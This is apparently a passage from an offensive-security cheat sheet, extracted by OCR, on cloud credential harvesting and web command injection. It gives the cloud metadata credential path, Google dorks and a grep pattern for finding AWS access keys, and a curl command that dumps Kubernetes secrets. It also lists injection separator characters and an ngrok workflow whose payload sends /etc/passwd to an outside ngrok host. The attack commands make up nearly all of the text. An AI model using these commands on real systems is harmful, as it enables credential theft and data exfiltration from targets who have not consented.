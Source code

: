 ```
/latest/meta-data/iam/security-credentials
```

Google Dorking for AWS Access Keys

```
inurl:pastebin "AWS_ACCESS_KEY"
```

Recursively searching for AWS Access Keys on *Nix containers

```bash
$ grep -ER "AKIA[A-Z0-9]{16}|ASIA[A-Z0-9]{16}" /
```

S3 Log Google Dorking

```
s3 site:amazonaws.com filetype:log
```

## Kubernetes Secrets Harvesting:

```bash
$ curl -k -v -H “Authorization: Bearer <jwt_token>” -H “Content-Type: application/json” https://<master_ip>:6443/api/v1/namespaces/default/secrets | jq -r ‘.items[].data’
```

# Web Applications:

## Command Injection:

Special Characters

```
&
;
Newline (0x0a or \n)
&&
|
||
command `
$(command )
```

Ngrok for Command Injection:

```bash
# Start listener
$ ./ngrok http 80

# Test for blind injection
Input field - > ;%20curl%20blablabla.ngrok.io

# Take it all
Input field -> ;curl%20-F%20shl=@/etc/passwd%20blablabla.ngrok.io
```
